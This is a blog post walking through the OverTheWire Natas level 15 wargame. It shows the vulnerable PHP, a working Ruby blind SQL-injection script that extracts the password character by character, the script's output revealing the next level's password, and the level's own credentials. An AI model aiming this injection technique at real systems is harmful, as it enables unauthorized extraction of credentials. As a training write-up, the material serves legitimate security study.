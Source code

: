 ```yaml
---
layout: post
title: "OverTheWire Natas Level 15"
date: "2012-11-14T06:29:00-05:00"
comments: true
categories:
 - overthewire
 - wargames
 - natas
 - php
 - sqlinjection
 - hacking
---
```


Up until now, none of the OverTheWire Natas challenges really gave me that much of an issue. This one however, took me a couple hours to complete. Level 15 is a fun blind sql-injection vulnerability. 

<!-- more -->

It starts out with a username check dialog, which pretty much only gives you a binary value as to if a username exists or not.

{% img /images/natas15_1.png %}

I looked at the source code, and couldn't see any way to inject some SQL to get it to retrieve the password for me. 

```
<html> 
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head> 
<body> 
<h1>natas15</h1> 
<div id="content"> 
<? 

/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 

if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas15', '<censored>'); 
    mysql_select_db('natas15', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) { 
    if(mysql_num_rows($res) > 0) { 
        echo "This user exists.<br>"; 
    } else { 
        echo "This user doesn't exist.<br>"; 
    } 
    } else { 
        echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
} else { 
?> 

<form action="index.php" method="POST"> 
Username: <input name="username"><br> 
<input type="submit" value="Check existence" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

I did notice though, that it would verify that a row was returned, so I could inject SQL to brute-force the password. Assuming that the password was 32 digits long (like the previous ones), this could take some time however, since the character set was uppercase, lowercase, and digits. That's up to 62 attempts per digit of the password. I started doing this manually to verify that this was a possibility. With the "debug" flag on, you can see the query, and that the first digit of the password is not "b".

{% img /images/natas15_1.png %}

I cycled through manually all the lowercase and upper case letters. Once I got partially through the numbers, I got a successful hit! This means that the password starts with a "3".

{% img /images/natas15_1.png %}

The next step for me, was to automate this process. I decided to write some ruby to accomplish it. This code seems to do the job: 

```
require 'uri'
require 'net/http'

url = URI.parse("http://natas15.natas.labs.overthewire.org/index.php")
http = Net::HTTP.new(url.host, url.port)
chars = ('a'..'z').to_a + ('A'..'Z').to_a + ('0'..'9').to_a
password = ""
found = false

# 64 was selected, since the password field is a varchar(64)
# Most likely, since all other passwords were 32 digits long, it'll be that
(1..64).each do |i|
 chars.each do |c| 
  found = false
  request = Net::HTTP::Post.new(url.request_uri)
  request.basic_auth("natas15", "m2azll7JH6HS8Ay3SOjG3AGGlDGTJSTV")
  query = 'natas16" AND SUBSTRING(password, ' + i.to_s + ', 1) LIKE BINARY "' + c
  request.set_form_data({"username" => query})
  response = http.request(request)

  if response.body.include?("This user exists")
   password += c
   found = true
   puts "Current pass: #{password}"
   break
  end
 end
 # If no letter/number was found, it's fairly safe to assume it's done
 break if !found
end

```

The output shows: 

```
mandreko$ ruby natas15.rb
Current pass: 3
Current pass: 3V
Current pass: 3Vf
Current pass: 3VfC
Current pass: 3VfCz
Current pass: 3VfCzg
Current pass: 3VfCzga
Current pass: 3VfCzgaW
Current pass: 3VfCzgaWj
Current pass: 3VfCzgaWjE
Current pass: 3VfCzgaWjEA
Current pass: 3VfCzgaWjEAc
Current pass: 3VfCzgaWjEAcm
Current pass: 3VfCzgaWjEAcmC
Current pass: 3VfCzgaWjEAcmCQ
Current pass: 3VfCzgaWjEAcmCQp
Current pass: 3VfCzgaWjEAcmCQph
Current pass: 3VfCzgaWjEAcmCQphi
Current pass: 3VfCzgaWjEAcmCQphiE
Current pass: 3VfCzgaWjEAcmCQphiEP
Current pass: 3VfCzgaWjEAcmCQphiEPo
Current pass: 3VfCzgaWjEAcmCQphiEPoX
Current pass: 3VfCzgaWjEAcmCQphiEPoXi
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9H
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9Ht
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9Htl
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9Htlm
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmV
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3L
```

And there you go, the password for level 16 shows up as the last line before it quits. 

